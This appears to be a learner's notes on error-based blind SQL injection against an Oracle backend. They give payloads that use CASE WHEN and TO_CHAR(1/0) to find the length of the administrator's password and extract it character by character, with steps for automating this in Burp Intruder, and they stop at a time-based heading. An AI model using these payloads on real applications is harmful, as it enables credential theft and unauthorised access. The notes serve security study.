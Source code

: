 1st Query (NOT GOOD)           ---> This query does not work since a false or true response will always display a 200 response (And might not display a HTML code that allow us to verify)
		This then mean we need to use a query to will response a error code when the query is valid and a 200 response when the query is false

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
THEN TO_CHAR(1/0)                ---> Create an Invalid query (1/0 = Invalid)
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in

This mean that if the user is found, it will not return an error, and if it is not found it will prive an invalid statment

**Take also note that the query is been read from (FROM users -> to the right and after pass the CASE WHEN query part)**


Length of Variable (>,<,<=,>=)
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator' and LENGTH(password)>19) || '
```

200 response                              ---> False
500 response                              ---> True

Enumeration of variable
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,2,1)='a') || '
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,§2§,1)='§a§') || '
	```
	- Set the attack to Cluster Bomb and load the payloads

---

## Time Base Technique
